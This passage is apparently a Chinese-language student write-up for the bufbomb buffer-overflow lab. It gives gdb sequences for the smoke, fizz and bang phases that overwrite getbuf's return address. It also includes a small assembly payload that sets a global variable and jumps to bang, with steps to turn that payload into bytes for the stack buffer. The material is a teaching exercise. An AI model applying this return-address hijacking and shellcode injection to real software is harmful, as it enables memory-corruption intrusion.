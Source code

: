 ```gdb
b *(getbuf+21)
c
set *(void**)$esp=smoke
c
```

### phase 2 - fizz

查看 fizz 反汇编，不难得其要求一个参数，该参数将与 cookie 比较，相等时通过。

使用 `makecookie <你的学号>` 得到你的 cookie，此处假设为 0x7d97e567。

```gdb
b *(getbuf+21)
c
set *(void**)$esp=fizz
b *(fizz+9)
c
set $eax=0x7d97e567
c
```

### phase 3 - bang

本例中，将 0x804d138 <global_value> 与 cookie 作比较，故关键点就是找到设置全局变量的方法。

可以尝试看看 bufbomb 的反汇编有没有设置 global_value 的方法：

`objdump -D bufbomb | grep 0x804d138`

你大概会发现出现 0x804d138 的地方就那么一处，所以想套现成的方法是行不通了。

代码段是肯定改不了了，但是所幸跳转指令（此处指 ret）非常有操作空间！

故可以将 getbuf 的返回地址设置为 getbuf 的缓冲区基址，并向缓冲区填充赋值 global_value 与跳转至 bang 的代码。

编写汇编保存为 solve-bang.s：

```assembly
mov $0x7d97e567, %eax
mov %eax, 0x804d138
push $0x8048c55
ret
```

使用以下命令得到缓冲区的指令与十六进制序列：

```sh
gcc -c solve-bang.s
objcopy -O binary -j .text solve-bang.o solve-bang.bin
xxd -c 8 -g 1 solve-bang.bin | cut -d ' ' -f 2-9 > solve-bang.hex
```

将 solve-bang.bin 输入并运行，重新启动 gdb 调试运行以下命令，通过。

```gdb
b *(getbuf+9)
c
printf "dest ret addr: %#lx\n", $eax
b *(getbuf+20)
c
x /4i $ebp-0x28
set $eax=$ebp-0x28
b *(getbuf+21)
c
set *(void**)$esp=$eax
c
```
